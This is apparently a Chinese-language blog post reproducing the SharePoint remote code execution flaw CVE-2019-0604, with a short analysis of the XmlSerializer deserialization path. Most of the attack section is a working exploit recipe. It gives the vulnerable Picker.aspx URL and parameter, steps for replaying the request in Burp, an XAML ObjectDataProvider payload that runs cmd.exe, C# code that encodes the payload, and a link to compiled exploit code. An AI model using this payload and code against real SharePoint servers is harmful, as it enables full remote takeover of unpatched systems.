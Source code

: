 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/cH2mgRZKxXu3k3Kg3i9swA)

漏洞简介

  该漏洞可造成 Windows 系统服务器的远程命令执行，有可能完全控制服务器。攻击者可将精心构造的请求通过 ItemPickerWebForm 控件传入后端 EntityInstanceIdEncoder.DecodeEntityInstanceId(encodedId) 方法中，因为方法没有对传入的 encodedId 进行任何处理，也没有对 XmlSerializer 构造函数的类型参数进行限制，可直接通过 XmlSerializer 反序列化，造成命令执行。

利用条件

    要利用该漏洞，需要授权访问 sharepoint 提供的管理网页，授权账户可以是一个域账户。

漏洞复现

复现环境：windows server 2016、windows sharepoint 2016（no KB4462211）

首先登录到目标机器上面来

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2BiciaPnmDNN56RzJR0m25vJhrB7T3eW8pDgUVZ9o5frv7ibAwQevZsGvQ/640?wx_fmt=png)

地址栏输入：

```
http://<Your SharePoint Domin Or IP>:<Your SharePoint Port>/_layouts/15/Picker.aspx?PickerDialogType=<Your Microsoft.SharePoint.WebControls.ItemPickerDialog's assembly qualified name>
```

  注意，PickerDialogType 参数需要自行去进行查找，如输入错误，则会像下面这样报错：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2XcLLLYMk4UmCUvX3YlZ5JKTgPTg6SpnUNibohhBIz7SZB0RQKpxcfHw/640?wx_fmt=png)

查看方法可以使用下面的 C# 代码进行输出：

```
System.Console.WriteLine(typeof(Microsoft.SharePoint.WebControls.ItemPickerDialog).AssemblyQualifiedName.ToString())
```

或者自己搭建相同环境，使用反编译工具，反编译 Sharepoint.dll 来查看，默认位置位于：

```
C:\Program Files\Common Files\micrsoft shared\Web Server Extensions\16\ISAPI
```

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2sRwELo75ART1CIL0iaWa0Nctz30KicA7TwiaAlwU4JxOvUStbdXQ0yPLA/640?wx_fmt=png)

所以我们的参数值如下：

```
Microsoft.SharePoint.WebControls.ItemPickerDialog,+Microsoft.SharePoint,+Version=16.0.0.0,+Culture=neutral,+PublicKeyToken=71e9bce111e9429c
```

注意，并不是所有情况下都会像刚刚我网页中那样爆出来相关信息，大多数时候还是需要手工查看这些信息的。

加上正确的参数再进行访问，即可看到正确的页面。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2TnyBfZdv4JfM3VeicQOVtx9q8LZJuw67rZAvx8ArAPjp2cKxpGiaH8mA/640?wx_fmt=png)

该页面为 webform 页面，通过查看源代码即可查看到漏洞的加载点：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH240mUibKncYGLZuCu9dpJdByXt5DJEgoGV6UgkYic0tfmT2FStD66PicaA/640?wx_fmt=png)

```
<input var e=event; if(!e) e=window.event; if(!browseris.safari && e.keyCode==13) { document.getElementById('ctl00_PlaceHolderDialogBodySection_ctl07_queryButton').click(); return false; }" alwaysenablesilent="true" style="=t;, true, "&quo
```

由于其机制问题，我们需要使用 bp 抓包，然后手工将该触发点加入到数据包中。而 sharepoint 一般使用 ntlm 认证，默认的 burp 的方法是无法成功重放数据包的，此时我们可以参考该文章来进行设置：https://blog.csdn.net/hackerie/article/details/107080336 即在如下图所示的地方添加你的 hash：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH29gke520Jb0M5vs6xerhh2aRTFt9T5t0G36HhLsV5kJfmYYJl3aRj7g/640?wx_fmt=png)

本地复现如果图方便的话，也可以自行将 sharepoint 的认证改成基础认证。然后就是抓包了，并把刚刚所说的字段改成自己的 payload

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH25UFCzM1jBxtvVLEoTgtwfdrvLVbicLbgL36vyWDD9xnrTND8icEEjUQQ/640?wx_fmt=png)

目标机器成功运行 calc

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2WhPRrXIXIlMwwFApam7VL5h1V39r4wRZPqCUzB5EE6LspDDHibQqghA/640?wx_fmt=png)

漏洞分析

然后我们反编译 SharePoint.dll 搜索入口 ItemPickerDialog，这就是程序的入口点了

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2auhwP8hApOXehdrGVbt0tHY06D9CyxWt5VE8PAe9FDAK8PEcMvIwRQ/640?wx_fmt=png)

中间的过程就不再一一的跟进了，直接跳到后面的序列化部分：

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2Hk5J27TTia1wcJYAhia76zwcaa11s8ZbXGMz2mv8Lic9LHiau468AJsjGg/640?wx_fmt=png)

这个函数就是最后负责处理我们传入的参数的，而其中有 XmlSerializer 构造函数的类型参数可控。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2AEHNoZSmltJ3bxQAxV51YxcAJ9puC5QIcRsoOa5FuzeZAXY62ibRRVw/640?wx_fmt=png)

其这一步关键在于 Type.GetType，程序必须通过 Type 类的静态方法 GetType。然后我们看一下这个利用链。变量 typename 通过 text.Substring(0, num2); 获取值最后交由 Deserialize 反序列化。

漏洞利用

根据之前 360 的代码审计文章可知，在 XmlSerializer 中我们可以使用通用的 payload 进行攻击，即一个 XAML：

```
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" Method>
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd.exe</System:String>
            <System:String>/c calc.exe</System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

生成 payload 的代码如下：

```
static void Main(string[] args)
        {
            object[] objs = new object[1];
            objs[0] = Payload("<Path To Xml File>");
            string payload = Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId(objs);
            System.Console.WriteLine(payload);
            System.Console.ReadKey();
        }

        public static object Payload(string filepath)
        {
            ExpandedWrapper<XamlReader, ObjectDataProvider> eobj = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
            eobj.ProjectedProperty0 = new ObjectDataProvider();
            eobj.ProjectedProperty0.ObjectInstance = new XamlReader();
            eobj.ProjectedProperty0.MethodName = "Parse";
            eobj.ProjectedProperty0.MethodParameters.Add(File.ReadAllText(filepath));
            return eobj;
        }
```

最后再使用，因为毕竟最后参数是传到这里有过一次解码操作

```
Microsoft.SharePoint.BusinessData.Infrastructure.EntityInstanceIdEncoder.EncodeEntityInstanceId
```

进行编码，来获得一个可以直接在 burp 上面发送的 payload。

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08VE5CtJlJgIByD4SviazVIH2NzLIic6pB5wmA1kxiaXPibtCj6rNAjldkBXKwfC6h1R4XnuOVyMzN4Xmg/640?wx_fmt=png)

最后编译好的代码如下：https://github.com/lengjibo/OffenSiveCSharp/tree/master/CVE-2019-0604

生成 payload 时，会在本地执行一次，望周知。无马，可自行分析。

参考文章：

https://x3fwy.bitcron.com/post/sharepoint-rce-explained

https://blog.csdn.net/weixin_33721344/article/details/94688536

https://k8gege.org/p/e896a7d1.html

     ▼

更多精彩推荐，请关注我们

▼

![](https://mmbiz.qpic.cn/mmbiz_png/mj7qfictF08XZjHeWkA6jN4ScHYyWRlpHPPgib1gYwMYGnDWRCQLbibiabBTc7Nch96m7jwN4PO4178phshVicWjiaeA/640?wx_fmt=png)